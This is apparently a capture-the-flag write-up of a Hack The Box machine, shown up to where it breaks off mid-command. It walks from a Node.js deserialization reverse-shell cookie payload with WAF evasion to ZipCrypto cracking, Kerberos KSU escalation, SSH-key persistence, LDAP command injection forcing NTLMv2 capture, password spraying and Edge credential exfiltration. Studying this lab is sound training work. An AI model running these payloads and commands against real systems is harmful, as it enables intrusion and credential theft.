This box is rated insane difficulty on HTB. It involves us getting a foothold on a domain-joined Linux web server through insecure deserialization. Then we discover ZipCrypto archive which has files we recover through a known plaintext attack, resulting in a domain user's password hash. After cracking the hash and getting the plaintext version, it's used to abuse Kerberos authentication to escalate privileges via the KSU program. After tunneling to the internal subnet, we write to an LDAP attribute that is used in a PowerShell script to perform command injection and force an NTLMv2 challenge/response to crack another user's hash. Password spraying gives us access to another account who has an administrator's passwords encrypted in their Microsoft Edge files.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields nothing.

```
└─$ sudo nmap -p22,80 -sCV 10.129.2.88 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-23 02:28 -0400
Nmap scan report for 10.129.2.88
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8c:71:55:df:97:27:5e:d5:37:5a:8d:e2:92:3b:f3:6e (RSA)
|   256 b2:32:f5:88:9b:fb:58:fa:35:b0:71:0c:9a:bd:3c:ef (ECDSA)
|_  256 eb:73:c0:93:6e:40:c8:f6:b0:a8:28:93:7d:18:47:4c (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.49 seconds
```

Looks like a Linux machine, which is a bit interesting since this box is listed as Windows. This may mean that we're attacking an external web server which will be used as a pivot to an internal subnet later on, but either way there are just two ports open:
- SSH on port 22
- An Nginx web server on port 80

Not a whole lot we can do with that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and subdomains in the background before heading over to the site.

## Web Server
Navigating to the site redirects us to `www.windcorp.htb`, which I add to my `/etc/hosts` file to resolve any domain name resolution errors.



My subdomain enumeration finds another one for portal, which is also appended to it.

```
└─$ ffuf -u http://windcorp.htb -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.windcorp.htb" --fs 153

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://windcorp.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.windcorp.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 153
________________________________________________

portal                  [Status: 403, Size: 2436, Words: 234, Lines: 44, Duration: 76ms]
:: Progress: [114442/114442] :: Job [1/1] :: 418 req/sec :: Duration: [0:05:26] :: Errors: 0 ::
```

Checking out the landing page at www.wincorp.htb shows a site that holds general information about the organization and their services, although it's mostly Latin filler content.



Apart from a team section that gives us potential usernames, this site doesn't hold a lot for us.



### Partner Portal
Over on the portal subdomain, we find a login panel for the company's partners.



Attempting to use default credentials such as admin:admin succeeds to log us in. The only thing on the dashboard is a banner noting that the portal is still under construction, which could mean there are insecure APIs or source code still exposed.



With not a ton to go off of, I capture an invalid request to the login panel to see what data is being sent. This reveals a server response header disclosing that the application is built with Node.js and uses Express for the front end.



I also test this login panel for any SQL injection which blocks me for obvious security reasons, but reveals that the site is protected with ModSecurity. I'll keep this in mind for any future vulnerabilities that arise since we'll likely need to encode our payloads to bypass this detection.



Taking a look at our cookies shows one for the app and another to track our logged-in profile.



### Insecure Deserialization via Cookie
The first I'm positive is some Node.js magic, but the second is base64 encoded. After decoding we find that we're able to manipulate our username, role, and logon time which doesn't really help us out since we are already signed in as admin.

```
└─$ echo -n 'eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOiIxIiwibG9nb24iOjE3Nzk1MTk0MTAzOTV9' | base64 -d
{"username":"admin","admin":"1","logon":1779519410395}
```

I spent some time playing around with the role to see if there was a hidden developer value or something like it, but nothing came from it. So far, the only real thing we can do on either site is control what the application uses from this profile cookie.

A bit of research on Node.js vulnerabilities in stored cookies led me to finding this [OpSecX article](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) about a deserialization bug that could be leveraged to get RCE on affected systems. This stems from a cookie that comes from a client request being passed into the unserialize() function, ultimately making it possible for attackers to execute arbitrary code on the server. By all means, the user should not be able to supply any input that will reach this function but here we are.

The author provides a PoC for getting code execution as well, and after base64-encoding it we're left with a cookie that can be set via our browser's developer tools.

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

Running this gets sniped by the ModSecurity WAF as expected.



I'll try encoding certain bad characters one at a time to see what's being filtered out. Attempting to replace the dollar signs and squiggly brackets with their Unicode variants to bypass the WAF and grab code execution fails.

```
{"rce":"_\u0024$ND_FUNC\u0024$_function() \u007brequire('child_process').exec('ping -c 1 10.10.14.6', function(error,stdout,stderr) {console.log(stdout) });\n}()"}
```

### Initial Foothold
The aforementioned article shows a method for RCE by encoding with CharCode. I'll use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate a payload and then base64-encode it before passing it into the cookie once again.

```
└─$ python2 ./nodejsshell.py 10.10.14.48 443

└─$ echo -n '{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,52,56,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}' | base64 -w0
```



_Note: Make sure your request to the server is a GET to the web's root, I lost a lot of time wondering why my payloads weren't working until swapping my request method and then it magically worked._

After refreshing the page with our new cookie or sending it in a captured request in Burp Suite, we receive a connection on our listener and grab a shell on the server as Webster. We may have to append a random string to the end of our cookie to throw off the WAF, I found that I only needed it sometimes.

```
└─$ nc -lvnp 443
```



## Linux Privilege Escalation
Light enumeration on the filesystem reveals a backup.zip archive in our user's home directory. I'll transfer this to my local machine through a Netcat connection and redirectors for closer inspection.

```
#On local machine
└─$ nc -lnvp 1234 > backup.zip

#On remote machine
└─$ nc 10.10.14.48 1234 < backup.zip
```

Attempting to unzip it prompts us to enter a password, however converting it to a crackable format with tools like zip2john fails.



### ZipCrypto Plaintext Attack
We can however list all files inside of it with 7zip, which shows a ton of files pertaining to the sss service. It looks like this archive will be worth pursuing because of the sensitive config files within it.

```
└─$ 7z l backup.zip                     

7-Zip 26.00 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-02-12
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 72984 bytes (72 KiB)

Listing archive: backup.zip

--
Path = backup.zip
Type = zip
Physical Size = 72984

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2022-04-30 11:27:46 .....         1509          554  etc/passwd
2021-02-10 07:49:04 D....            0            0  etc/sssd/conf.d
2022-04-29 08:39:18 .....          411          278  etc/sssd/sssd.conf
2022-07-28 07:31:32 D....            0            0  var/lib/sss/db
2022-07-28 07:24:22 .....      1286144         3122  var/lib/sss/db/timestamps_windcorp.htb.ldb
2022-07-28 07:16:32 .....      1286144         2492  var/lib/sss/db/config.ldb
2022-07-28 07:16:22 D....            0            0  var/lib/sss/db/test
2022-07-28 07:01:24 .....      1286144         2421  var/lib/sss/db/test/timestamps_windcorp.htb.ldb
2022-07-28 07:04:31 .....      1286144         2536  var/lib/sss/db/test/config.ldb
2022-07-28 07:12:20 .....      1286144         5044  var/lib/sss/db/test/cache_windcorp.htb.ldb
2022-04-30 12:51:32 .....      1286144         1505  var/lib/sss/db/test/sssd.ldb
2022-07-28 07:04:42 .....         4016         3651  var/lib/sss/db/test/ccache_WINDCORP.HTB
2022-07-28 07:38:03 .....      1609728        10145  var/lib/sss/db/cache_windcorp.htb.ldb
2022-07-28 07:16:32 .....      1286144         1505  var/lib/sss/db/sssd.ldb
2022-07-28 07:31:32 .....         2708         2519  var/lib/sss/db/ccache_WINDCORP.HTB
2021-02-10 07:49:04 D....            0            0  var/lib/sss/deskprofile
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies
2022-07-28 07:24:22 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine/Microsoft
2022-04-29 08:45:47 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine/Microsoft/Windows NT
2022-07-28 07:23:17 D....            0            0  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine/Microsoft/Windows NT/SecEdit
2022-07-28 07:23:17 .....         2568          700  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Machine/Microsoft/Windows NT/SecEdit/GptTmpl.inf
2022-07-28 07:24:22 .....           23           35  var/lib/sss/gpo_cache/windcorp.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
2021-02-10 07:49:04 D....            0            0  var/lib/sss/keytabs
2022-07-28 07:16:32 D....            0            0  var/lib/sss/mc
2022-07-28 07:24:17 .....      9253600         9186  var/lib/sss/mc/passwd
2022-07-28 07:16:32 .....      6940392         6814  var/lib/sss/mc/group
2022-07-28 07:23:17 .....     11567160        11389  var/lib/sss/mc/initgroups
2022-07-28 07:16:32 D....            0            0  var/lib/sss/pipes
2022-07-28 07:16:32 D....            0            0  var/lib/sss/pipes/private
2022-07-28 07:31:32 D....            0            0  var/lib/sss/pubconf
2022-07-28 07:31:32 .....           12           24  var/lib/sss/pubconf/kdcinfo.WINDCORP.HTB
2022-07-28 07:16:32 D....            0            0  var/lib/sss/pubconf/krb5.include.d
2022-07-28 07:16:32 .....           40           52  var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
2022-07-28 07:16:32 .....          113          105  var/lib/sss/pubconf/krb5.include.d/localauth_plugin
2022-07-28 07:16:32 .....           15           27  var/lib/sss/pubconf/krb5.include.d/domain_realm_windcorp_htb
2021-02-10 07:49:04 D....            0            0  var/lib/sss/secrets
------------------- ----- ------------ ------------  ------------------------
2022-07-28 07:38:03           38385303        64104  21 files, 19 folders
```

Running this same command again with the `-slt` flags gives us the metadata for each file, revealing that ZipCrypto was used to encrypt them.

```
└─$ 7z l -slt backup.zip
```



In case you're unaware, there's a well-known plaintext attack against ZipCrypto that will allow us to break the encryption on it. The only thing we require is the contents of one of the files, and luckily `/etc/passwd` should still be mostly the same between backups. 

I'll use [bkcrack](https://github.com/kimci86/bkcrack) to perform this attack, but we'll also need to grab the current `/etc/passwd` file from the machine to pass into this tool. I'll transfer this in the same way as the backup.zip archive.

Next, we'll need to zip the plaintext `/etc/passwd` file into its own zip archive so the tool can compare the two. 

```
└─$ zip plain.zip passwd
```

Our command to carry this out will look like so:

```
└─$ ./bkcrack -C backup.zip -c etc/passwd -P plain.zip -p passwd
```

- `-C backup.zip` - The encrypted zip file
- `-c etc/passwd` - The name of the known file inside the encrypted zip
- `-P plain.zip` - The plaintext zip file
- `-p passwd` - The name of the known file in the plaintext zip.



This will grant us keys that can be used in another bkcrack command to output the decrypted files to another archive and set a password on it. Our new command will look similar:

```
└─$ ./bkcrack -C backup.zip -k d6829d8d 8514ff97 afc3f825 -U backup-output.zip password
```

- `-C backup.zip` - The encrypted zip file
- `-k [keys]` - The gathered keys
- `-U [output.zip]` - The new archive with output files
- `[password]` - The known password for the output file



Now we can unzip this new archive and look around these files. The main one that sticks out to me is a cache file ending in `.ldb` in the `/var/lib/sss/db` directory. This file's name indicates that it holds cached credentials for users on the `windcorp.htb` domain.

### Creds in .ldb Cache File
If you're curious as to what files we're poking around in, the System Security Services Daemon (SSSD) is a Linux service that manages user identity, authentication, and authorization by bridging local systems with remote directories like Active Directory, LDAP, or FreeIPA. Essentially, it is what's allowing this system to connect to the domain.



Back on the box, we can confirm that this server is connected to an internal subnet by viewing its interfaces.



So this `.ldb` file may contain other user credentials. Running file against it shows that it's a TDB file, which is a Trivial DataBase file used by the Samba networking suite to store server configuration and state data. We can use `tdbdump`, that is also from Samba, to dump this database.

```
└─$ tdbdump ./var/lib/sss/db/cache_windcorp.htb.ldb
```



Amidst the sea of data is a huge blob for the Ray.Duncan user that contains a hash for him. Sending this over to Hashcat or JohnTheRipper allows us to grab the plaintext version.

```
└─$ john ray_hash --wordlist=/opt/seclists/rockyou.txt
```



Abusing KSU
We can't use this to login via SSH since he is not a user on the Linux machine, however we can request a ticket on the domain from the web server with `kinit`. Also, displaying the `/etc/krb5.conf` file reveals that the DC is named `hope.windcorp.htb`.

```
webster@webserver:~$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = WINDCORP.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

# The following encryption type specification will be used by MIT Kerberos
# if uncommented.  In general, the defaults in the MIT Kerberos code are
# correct and overriding these specifications only serves to disable new
# encryption types as they are added, creating interoperability problems.
#
# The only time when you might need to uncomment these lines and change
# the enctypes is if you have local software that will break on ticket
# caches containing ticket encryption types it doesn't know about (such as
# old versions of Sun Java).

#       default_tgs_enctypes = des3-hmac-sha1
#       default_tkt_enctypes = des3-hmac-sha1
#       permitted_enctypes = des3-hmac-sha1

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        WINDCORP.HTB = {
                kdc = hope.windcorp.htb
                admin_server = hope.windcorp.com
                default_domain = windcorp.htb
        }

[domain_realm]
        .windcorp.htb = WINDCORP.HTB
        windcorp.com = WINDCORP.HTB

[appdefaults]
        forwardable = true
                pam = {
                        WINDCORP.HTB = {
                                ignore_k5login = false
                                }
                }
```

Requesting a ticket and listing it after confirms we're able to authenticate as him.

```
webster@webserver:~$ kinit ray.duncan

webster@webserver:~$ klist
```

Immediately checking to see if we have access to escalate privileges to root using ksu succeeds and we're granted root privileges on the box. Kerberized super-user (KSU) is a command-line program that allows you to securely change your real and effective user ID to another user, typically to root, utilizing Kerberos authentication.

```
webster@webserver:~$ ksu
```



At this point we can grab the user flag from the root user's home directory and begin looking at ways to pivot onto the DC. First, I'll place my public key into the root's authorized_keys file so I don't have to go through all those hoops again and to maintain access.

```
root@webserver:~# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKkq\xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d hacker@pwn" >> /root/.ssh/authorized_keys

└─$ ssh root@windcorp.htb
```



## Pivoting to Internal Subnet
With SSH all set up, I'll restablish a conection to configure a dynamic SOCKS proxy on my local machine so we're able to reach the DC without having to remain on the web server.

```
└─$ ssh -i ~/.ssh/id_ed25519 root@windcorp.htb -D 1080
```

I'll also edit my /etc/proxychains4.conf file to contain the following line at the very end:

```
socks5 127.0.0.1 1080
```

Now I'll scan the internal subnet for live hosts using a bash command, which shows that 192.168.0.2 is alive and probably the IP for our DC.

```
root@webserver:~# for ip in 192.168.0.{1..254}; do ping -c 1 -W 1 $ip >/dev/null && echo "$ip is up"; done
192.168.0.2 is up
```

I'll alter my `/etc/krb5.conf` file on my local machine to contain the necessary information in case we want to mess around with Kerberos.

```
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = { 
      kdc = hope.windcorp.htb
    }

[domain_realm]
    .windcorp.htb = WINDCORP.HTB
    windcorp.htb = WINDCORP.HTB
```

With everything all set up, I'll request a ticket for Ray.Duncan from my local machine and use it to enumerate SMB on the domain controller.

```
└─$ proxychains4 kinit ray.duncan

└─$ proxychains4 klist
```



## Windows Foothold via PowerShell script
Netexec seems to error out to list the shares, but swapping to smbclient works fine. There's just one non-standard share named `WC-Share`. 

```
└─$ proxychains4 smbclient -k -L //hope.windcorp.htb/
```



Connecting to it give us a list of users on the domain that are appended with some random string.

```
└─$ proxychains4 smbclient -k //hope.windcorp.htb/WC-Share

└─$ cat debug-users.txt
```



The only other interesting thing in these shares was a PowerShell script inside `NETLOGON`.

```
└─$ proxychains4 smbclient -k //hope.windcorp.htb/NETLOGON
```



### Updating LDAP Attribute
The script looks to create a GUI form that takes in the mobile LDAP attribute. If this script is running, the numbers that were appended to the names in the debug-users.txt file are most likely the value of their mobile attributes.

```
└─$ cat form.ps1       
#Create Objects
$SysInfo = New-Object -ComObject "ADSystemInfo"
$UserDN = $SysInfo.GetType().InvokeMember("UserName","GetProperty", $Null, $SysInfo, $Null)
$User = [adsi]"LDAP://$($UserDN)"

#Create form
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$form = New-Object System.Windows.Forms.Form
$form.Text = 'SMS password reset setup'
$form.Size = New-Object System.Drawing.Size(300,200)
$form.StartPosition = 'CenterScreen'

$okButton = New-Object System.Windows.Forms.Button
$okButton.Location = New-Object System.Drawing.Point(75,120)
$okButton.Size = New-Object System.Drawing.Size(75,23)
$okButton.Text = 'OK'
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)

$cancelButton = New-Object System.Windows.Forms.Button
$cancelButton.Location = New-Object System.Drawing.Point(150,120)
$cancelButton.Size = New-Object System.Drawing.Size(75,23)
$cancelButton.Text = 'Cancel'
$cancelButton.DialogResult = [System.Windows.Forms.DialogResult]::Cancel
$form.CancelButton = $cancelButton
$form.Controls.Add($cancelButton)

$label = New-Object System.Windows.Forms.Label
$label.Location = New-Object System.Drawing.Point(10,20)
$label.Size = New-Object System.Drawing.Size(280,20)
$label.Text = 'To be able to reset password using SMS,'
$form.Controls.Add($label)

$label = New-Object System.Windows.Forms.Label
$label.Location = New-Object System.Drawing.Point(10,40)
$label.Size = New-Object System.Drawing.Size(280,20)
$label.Text = ' you need to keep it updated:'
$form.Controls.Add($label)

$textBox = New-Object System.Windows.Forms.TextBox
$textBox.Location = New-Object System.Drawing.Point(10,60)
$textBox.Size = New-Object System.Drawing.Size(260,20)
$form.Controls.Add($textBox)
$textBox.Text = $User.Get("mobile")

$form.Topmost = $true

$form.Add_Shown({$textBox.Select()})
$result = $form.ShowDialog()

if ($result -eq [System.Windows.Forms.DialogResult]::OK)
{
    $x = $textBox.Text
    $User.Put("mobile",$x)
    $User.SetInfo()
}
```

We can test this theory by Ray.Duncan's mobile attribute since he is both on the list and we have control over his account, note that we can grab Ray's distinguished name from the .ldb file from earlier.

Attempting this from my local machine was difficult so I swapped back to the web server which had access to the ldapmodify command. We should make sure we have a valid ticket as Ray before doing this too.

```
└─$ echo -e 'dn: CN=RAY DUNCAN,OU=DEVELOPMENT,DC=WINDCORP,DC=HTB\nchangetype: modify\nreplace: mobile\nmobile: 123456789' | ldapmodify -H ldap://hope.windcorp.htb
```



After a couple minutes and re-fetching the same file, Ray's mobile number is altered to the specified value.



### Command Injection
Knowing that this script is automated, if we update this attribute to contain a payload testing for command injection, it may be possible to execute arbitrary commands via this cronjob. We can use either backticks ` or wrap our command in $() to accomplish this.

I'll first just supply a simple whoami command to see if this works at all and who it's running as.

```
└─$ echo -e 'dn: CN=RAY DUNCAN,OU=DEVELOPMENT,DC=WINDCORP,DC=HTB\nchangetype: modify\nreplace: mobile\nmobile: $(whoami)' | ldapmodify -H ldap://hope.windcorp.htb
```



Repeating the prior steps to grab the file and checking it succeeds, showing that this script is vulnerable to command injection and that it's executing as the scriptrunner user.

### Forcing NTLMv2 Connection
Next I spent some time trying to upload a Netcat binary and reverse shell made with msfvenom, but both failed to actually execute. This is probably Windows Defender or AppLocker sniping the process, so I swap to trying to steal the user's hash by forcing an NTLMv2 connection. To do so, I'll have the script attempt to reach connect to the web server over SMB and then forward all traffic from there to my local machine, which will grant me the hash via Responder. 

```
└─$ echo -e 'dn: CN=RAY DUNCAN,OU=DEVELOPMENT,DC=WINDCORP,DC=HTB\nchangetype: modify\nreplace: mobile\nmobile: $(net use \\\\webserver.windcorp.htb\\test 2>&1)' | ldapmodify -H ldap://hope.windcorp.htb
```

We'll need to setup another tunnel that will forward all traffic over TCP 445 that reaches the web server, to come to our machine. I'll reestablish an SSH connection and add the -R 0.0.0.0:445:127.0.0.1:445 flag to do so. We should also enable Remote Tunneling in our /etc/ssh/sshd_config file by making sure the GatewayPorts line is uncommented and set to yes. Restarting our SSH service before reconnecting is a good idea to weed out any bugs.

```
└─$ sudo service ssh restart

└─$ ssh -i ~/.ssh/id_ed25519 root@windcorp.htb -D 1080 -R 0.0.0.0:445:127.0.0.1:445
```

After waiting a few minutes, we grab the challenge hash from the DC.

```
└─$ impacket-smbserver test . -smb2support
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,43742)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (WINDCORP\scriptrunner,HOPE)
[*] User HOPE\scriptrunner authenticated successfully
[*] scriptrunner::WINDCORP:aaaaaaaaaaaaaaaa:6dd2c5e5c955c4c1cca2e607ad348780:010100000000000080d9d3256562d901ca489555c34ca84900000000010010004a004a004c0071006c006a0041007a00030010004a004a004c0071006c006a0041007a0002001000720067004a0051004e004f006e00530004001000720067004a0051004e004f006e0053000700080080d9d3256562d90106000400020000000800300030000000000000000000000000210000576df55fb1b06b759344eaa6a4f173aa9bc17ec674ccf9c00d373489b7ca95260a001000000000000000000000000000000000000900360063006900660073002f007700650062007300650072007600650072002e00770069006e00640063006f00720070002e006800740062000000000000000000
[*] Closing down connection (127.0.0.1,43742)
[*] Remaining connections [] 
```

Sending this over to Hashcat or JohnTheRipper cracks quickly and gives us valid credentials for the scriptrunner user.



### Password Spraying
Looks like NTLM authentication is disabled and this user really doesn't have access to do a whole lot. Because of that, I'll spray this password across the domain using what limited permissions we have to enumerate account names via LDAP on the web server.

```
root@webserver:~# ldapsearch -H ldap://hope.windcorp.htb -b "DC=WINDCORP,DC=HTB" sAMAccountName "CN=Users,DC=windcorp,DC=HTB" | grep sAMAccountName > usernames.txt

root@webserver:~# awk '{print $2}' usernames.txt > DomainUsers.txt
```

Extracting these names by grepping for the _samAccountName_ and getting their values with an awk command gives us a very large list of users (around 600). 



I'll use [Kerbrute](https://github.com/ropnop/kerbrute) to spray this password from the web server to avoid any dropped packets and confusion over the SOCKS proxy.

```
└─$ scp ./kerbrute root@windcorp.htb:/root/kerbrute

root@webserver:~# ./kerbrute passwordspray -d windcorp.htb DomainUsers.txt '[REDACTED]'
```



### Grabbing Shell
This validates credentials for one other user named Bob.Wood, who seems to be apart of the Remote Management group, allowing us to grab a shell on the DC via WinRM.

First we'll need to grab a TGT as him through proxcychains.

```
└─$ proxychains4 kinit bob.wood

└─$ proxychains4 klist
```



Now we'll need to update our /etc/hosts file to resolve the DC's Fully Qualified Domain Name of HOPE.WINDCORP.HTB to match its IP address. This is because NTLM auth is disabled and the FQDN is required for Kerberos to work.



With everything configured correctly, we only need to specify the FQDN and the realm to connect with Evil-WinRM.

```
└─$ proxychains4 evil-winrm -i hope.windcorp.htb -r windcorp.htb
```



## Windows Privilege Escalation
Listing our group memberships and token permissions shows that we are apart of the Adminusers and IT groups.



There was also a Script directory at the root of the C:\ drive, but overwriting any of these didn't work to execute them after-the-fact.



The only user we didn't have access to on the system was the Administrator, so I start looking inside all the user directories that we control. Displaying the contents of Bob's AppData folder shows that Microsoft Edge was installed and at least contains cache data.



### Decrypting Microsoft Edge Passwords
A bit of research on where Microsoft Edge stores its credentials and secrets at leads me to the C:\users\Bob.Wood\AppData\Local\Microsoft\edge\User Data\default\ directory, which contains a "Login Data" file.



Attempting to download this file with the built-in features from Evil-WinRM just wouldn't work for some reason. I lost a lot of time here debugging my shell/connection and fiddling with AppLocker bypass techniques, but eventually realized something else was happening.

Checking what language mode our user is currently in reveals that we are stuck in Constrained Language Mode, which acts as a robust security feature that limits what commands, scripts, and language elements can be executed in a PowerShell session. 

```
*Evil-WinRM* PS C:\users\Bob.Wood\AppData\Local\Microsoft\edge\User Data\default> $ExecutionContext.SessionState.LanguageMode
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.0.2:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.0.2:5985  ...  OK
ConstrainedLanguage
```

This feature is designed to allow standard administrative tasks while blocking malicious actors from invoking sensitive, low-level Windows APIs or arbitrary .NET code. The most popular way to escape CLM is to utilize a legitimate tool on Windows called InstallUtil.exe to spawn a shell with an unrestricted language model, but this would take a bit longer.

Instead, I'll opt to exfil the necessary files from the Edge directory and attempt to recover any secrets offline. We'll need the Local State and Login Data files from it, but since we're in CLM, the command to convert them to base64 is blocked. I figure out that we can swap to certutil to encode the data and copy/paste it to our local machine works just fine.

```
PS C:\users\Bob.Wood\AppData\Local\Microsoft\edge\User Data\default> certutil -encode "Login Data" C:\users\bob.wood\downloads\logindata
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.0.2:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.0.2:5985  ...  OK
Input Length = 55296
Output Length = 76088
CertUtil: -encode command completed successfully.

PS C:\users\Bob.Wood\AppData\Local\Microsoft\edge\User Data> certutil -encode "Local State" C:\users\bob.wood\downloads\localstate
Input Length = 39942
Output Length = 54978
CertUtil: -encode command completed successfully.
```

_Note: Obviously don't grab the beginning/end certificate lines or your base64 decode command will error out._

```
└─$ cat logindata.encoded | base64 -d > logindata.decoded

└─$ cat localstate.encoded | base64 -d > localstate.decoded
```

Running file against both of these shows that "Local State" is JSON text and "Login Data" is in SQLite3 format. That means we can dump the DB with the same tool locally.

```
└─$ file localstate.decoded                                    
localstate.decoded: JSON text data
                                                                                                                                                                         
└─$ file logindata.decoded
